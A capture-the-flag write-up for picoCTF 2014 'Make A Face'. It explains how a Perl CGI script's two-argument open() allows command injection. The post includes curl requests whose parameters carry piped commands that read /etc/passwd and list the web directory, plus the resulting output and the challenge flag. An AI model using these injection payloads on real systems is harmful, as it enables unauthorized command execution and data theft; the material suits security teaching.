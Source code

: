 ```yaml
---
layout: post
title: "picoCTF 2014 Make A Face"
date: 2014-11-07 20:12:08 -0500
author: [swappage, barrebas]
comments: true
categories: [picoctf]
---
```


### Solved by Swappage and barrebas

Make a Face is a 100 point challenge. 

We need to exploit a perl script running on a Webpage. This script takes user input and generates an "avatar". We immediately figured Shellshock but this turned out to be wrong. The script is included in the webpage source:

```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
else {
  print $q->header;
	...generate page...
```

We can't really inject anything into the parameter fields, as the value is concatenated with "head", "hair", etc. No calls to `system` or `eval` are made, no backticks were used. However, perl being perl, has another [trick up it's sleeve](http://www.cgisecurity.com/lib/sips.html):

`
If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.
`

That's handy! Let's try it:

```bash
bas@tritonal:~$ curl "http://makeaface.picoctf.com/index.cgi?Head=%20/etc/passwd|&Hair=1.bmp&Nose=2.bmp&Mouth=2.bmp&Eyes=3.bmp"
BM....binnologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

It returns a few lines of /etc/passwd, albeit mangled a bit. This works, because the "head" parameter is used in the open statement like this:

```perl
open(HEAD,"head /etc/passwd|"); 
```

This makes perl believe that it is a command from which we want to see output! From here, we enumerated the webdirectory and Swappage came up with the brilliant solution:

```bash
bas@tritonal:~$ curl "http://makeaface.picoctf.com/index.cgi?Head=%20|cat%20/etc/passwd%26%26ls%20-la|&Hair=1.bmp&Nose=2.bmp&Mouth=2.bmp&Eyes=3.bmp"
BM...hex bytes...binnologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
total 228
drwxr-xr-x 2 root root 4096 Oct 27 03:57 .
drwxr-xr-x 3 root root 4096 Oct 27 03:47 ..
-rw-r--r-- 1 root root   34 Oct 27 03:48 SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
-rw-r--r-- 1 root root  452 Oct 27 03:48 css.css
-rw-r--r-- 1 root root 8338 Oct 27 03:48 eyes1.bmp
-rw-r--r-- 1 root root 8338 Oct 27 03:48 eyes2.bmp
-rw-r--r-- 1 root root 8338 Oct 27 03:48 eyes3.bmp
-rw-r--r-- 1 root root 8338 Oct 27 03:48 eyes4.bmp
-rw-r--r-- 1 root root 8338 Oct 27 03:48 hair0.bmp
```
Because that file, `SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` is world-readable and in the webdirectory, we could just browse to it and grab the flag: `why_did_we_stop_using_perl_again?`
